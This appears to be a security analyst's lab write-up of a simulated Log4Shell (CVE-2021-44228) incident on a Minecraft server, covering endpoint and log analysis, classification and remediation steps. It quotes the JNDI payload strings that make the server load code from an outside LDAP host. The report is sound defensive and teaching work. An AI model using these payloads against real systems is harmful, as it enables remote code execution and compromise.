 # SOC161 - Log4j RCE Exploit (CVE-2021-44228)



## Executive Summary

On December 11, 2021, the Security Operations Center (SOC) received a critical alert for a successful Remote Code Execution (RCE) attack on an internal **Minecraft Server** (192.168.10.69). The investigation confirmed that an external attacker exploited the **Log4Shell vulnerability (CVE-2021-44228)** by sending a malicious JNDI lookup string through the in-game chat. The vulnerable Log4j library, used by the Java-based server, parsed the string, leading to the execution of arbitrary commands. Endpoint logs confirm the attacker successfully spawned `cmd.exe` to run commands, proving a full system compromise. This is a **True Positive** critical incident requiring immediate containment and full incident response.

## Incident Details

The initial alert was triggered by the suspicious execution of `calc.exe` by a Java application:

<img width="1510" height="525" alt="image" src="https://github.com/user-attachments/assets/218d36ec-7e5e-49e3-a49c-4da1292a5e4d" />

| | |
| :--- | :--- |
| **Date of Incident** | December 11, 2021 |
| **Attacker IP** | 151.135.112.161 (Player IP) |
| **Attacker Staging Server** | 18.217.235.130 (LDAP Server) |
| **Destination Host** | Minecraft Server (192.168.10.69) |
| **Attack Type** | Remote Code Execution (RCE) via CVE-2021-44228 |
| **Malicious Payload** | `${jndi:ldap://18.217.235.130:1389/exploit}` |
| **Case Link** | [View Full Case on LetsDefend.io](https://app.letsdefend.io/case-management/casedetail/sohankanna/111) |

## Investigation and Analysis

### 1. Endpoint Analysis - Confirmation of RCE

The investigation began at the endpoint where the alert was generated. An analysis of the process history on the **Minecraft Server** host revealed a clear sequence of malicious command execution, with the parent process being the server's Java archive (`paper-1.12.2-1618.jar`).

<img width="1076" height="180" alt="image" src="https://github.com/user-attachments/assets/d0f754fe-4661-4ebd-814a-58c31114849f" />

*   `java.exe` launches the server.
*   `cmd.exe /c calc.exe` is executed. This is a common proof-of-concept to verify RCE.
*   `cmd.exe /c start echo Log4j Exploit Test Success` is executed, further confirming the attacker's intent and success.

The `AV Action: Allowed` indicates that endpoint defenses did not stop this behavior-based threat.

### 2. Application Log Analysis - Root Cause Identification

To find the initial access vector, the investigation pivoted to the application logs of the Minecraft server itself. The logs provided a definitive timeline and the exact payload used.

<img width="905" height="248" alt="image" src="https://github.com/user-attachments/assets/5ceb7ff1-c36f-43f3-b425-3b1d1269798e" />

1.  **[10:37:57]** A user named `testuser23` connects from the IP address `151.135.112.161`.
2.  **[10:40:16]** The user `testuser23` sends a chat message containing the Log4j payload: `${jndi:ldap://18.217.235.130:1389/exploit2}`.
3.  **[10:40:33]** A second payload is sent: `${jndi:ldap://18.217.235.130:1389/exploit}`.

The vulnerable server logged these chat messages. The Log4j library interpreted the `${jndi:...}` string, causing the server to connect to the attacker's LDAP server (`18.217.235.130`). This server then responded with a malicious Java class, which the Minecraft server executed, resulting in the command execution seen on the endpoint.

## Skills and Tools Utilized

*   **Tools Used:** SIEM, EDR / Endpoint Security, Application Log Files
*   **Skills Demonstrated:** RCE Analysis, Log4j Exploit Recognition (CVE-2021-44228), Root Cause Analysis, Correlating Endpoint and Application Logs.

## Playbook Solution: Incident Classification

*   **Initial Access Method:** **Exploit Public-Facing Application.**
*   **Persistence / Privilege Escalation:** **None** observed in this initial stage, but must be investigated.
*   **Was the Attack Successful?** **Yes.** Confirmed RCE with command execution.
*   **Does the device need to be isolated?** **Yes.** The host is fully compromised.
*   **Incident Classification:** **True Positive.**

## Conclusion and Recommendations

The alert for SOC161 was a **true positive** for a critical and successful RCE attack. The attacker leveraged the Log4Shell vulnerability (CVE-2021-44228) in the server's outdated Log4j library to gain complete control over the application process. The **Minecraft Server** is compromised and poses an immediate threat to the network.

**Recommendations:**

1.  **CONTAINMENT - Isolate Host Immediately:** Disconnect the **Minecraft Server** (192.168.10.69) from the network to prevent lateral movement and any further C2 communication.
2.  **ESCALATE - Activate Full Incident Response Protocol:** Immediately escalate to the Tier 2/Incident Response (IR) team for a full forensic investigation.
3.  **INVESTIGATION:** The IR team must analyze the host for persistence mechanisms, credential theft, and any signs of lateral movement originating from this host since the time of compromise.
4.  **ERADICATION & RECOVERY:** The server must be completely rebuilt from a trusted, known-good source. Do not attempt to patch the running system.
5.  **VULNERABILITY REMEDIATION:** Before redeploying, the Minecraft server software and all its dependencies, specifically the Log4j library, must be updated to a version that is patched against CVE-2021-44228.
6.  **BLOCK INDICATORS:** Block both the attacker's player IP (`151.135.112.161`) and the malicious LDAP staging server (`18.217.235.130`) at the network firewall.
